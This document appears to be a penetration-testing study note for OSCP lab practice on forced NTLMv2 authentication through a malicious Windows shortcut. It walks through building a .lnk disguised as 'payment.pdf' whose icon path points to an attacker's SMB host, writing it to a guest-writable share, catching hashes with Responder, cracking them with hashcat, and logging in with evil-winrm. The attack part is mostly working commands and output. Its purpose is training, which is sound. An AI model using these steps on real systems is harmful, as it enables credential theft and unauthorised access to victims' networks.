 # Evil Windows Library File
- Tool: https://github.com/Greenwolf/ntlm_theft
- google search: generate force NTLMv2 Authentication files site:github.com
- This is allowed on OSCP as it is NOT automatic exploitation
- if you see a SMB share with writable permissions, upload an EVIL lnk file
- Use responder to catch NTLMv2 creds
- Box: ***Vault*** - Offsec PG Practice
- Demo during Hacktrack with Mentors, Assembling the pieces 3.
- reference PEN200 12.3.1 https://portal.offsec.com/courses/pen-200-44065/learning/client-side-attacks-48976/abusing-windows-library-files-49009/obtaining-code-execution-via-windows-library-files-48979
- https://field-manual.brunorochamoura.com/manual/exploitation/client-side-exploitation/evil-windows-library-file/
---
## Forced Authentication & .lnk File Abuse
Forced Authentication: 
	- Coerce Authentication via abusing legitimate file functions  
LNK icon smuggling:   
	- Coerce authenicaion via ICON paths
	- Execute malicious code via legitimate functions
	- WE can replace lnk files to point to a remote file
	- we can also make lnk files use binary, to exeucte some command we want
	- If you find a share we have write access to, upload our evil binary
	- Mount share  smbclient \\\\IP\ShareName  

---

### Craft EVIL .lnk File

```
On windows desktop, right-click -> new shortcut
Location:  %WINDIR%  -> next
name: "payment.pdf"  -> finish

WE will change icon to look like PDF.
If target doesnt have view option, "show file extensions" on, our LNK will look like a .pdf file
Right-click our EVIL lnk -> properties -> 
target: %ComSpec% /c echo pwned >%UserProfile\desktop\hacked.txt

%comspec% == cmd.exe
change icon -> Look for icons in this file -> \\KALIIP\test.ico
hit OK, there will be an error..

When user RENDERS icon, explorer.exe will try to fetch the icon.. no user-interaction required.
This provides us with a HASH, from the target user/computer

google search: generate force NTLMv2 Authentication files site:github.com
```
---

### Identify SMB Write Access
```
# check for guest access 
nxc smb 192.168.205.172 -u "guest" -p "" --shares
SMB         192.168.205.172 445    DC               [*] Enumerated shares
SMB         192.168.205.172 445    DC               Share           Permissions     Remark
SMB         192.168.205.172 445    DC               -----           -----------     ------
SMB         192.168.205.172 445    DC               DocumentsShare  READ,WRITE      
```
Here we see DocumentsShare is mis-permissioned, and we, as GUEST, have write access.

---

### Listen With Responder
responder is only in analyze mode, no poisoning or spoofing is being used
`sudo responder -I tun0 -A`

Relay if you can't crack : [Impacket-ntlmrelayX](/03-Active-Directory/NTLMv2_Credential_Theft.md)

---
### Upload Evil LNK
```
smbclient \\\\192.168.165.172\\DocumentsShare
put payment.pdf.lnk
```

Check responder, we should see NTLMv2 hit
Once the user/scheduled task/automation touches/view or file, we should get a hash in responder

---

### Crack
Hash should be NTLMv2, and be autodetected by hashcat. 
If crack not possibly, we can also relay to another host.
hashcat hash /usr/share/wordlists/rockyou.txt
`hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force`

[Impacket-ntlmrelayX](/03-Active-Directory/NTLMv2_Credential_Theft.md)

---

### Use your New Found Power
Now that we have a password, we should re-enumerate shares
```
nxc smb 192.168.205.172 -u "anirudh" -p "SecureHM" --shares
nxc winrm 192.168.205.172 -u "anirudh" -p "SecureHM" --shares
evil-winrm -i 192.168.205.172 -u "anirudh" -p "SecureHM" 
```

### NTLM_THEFT
```bash
sudo responde
python3 /opt/ntlm_theft/ntlm_theft.py -g modern -s 192.168.45.158 -f ticket
```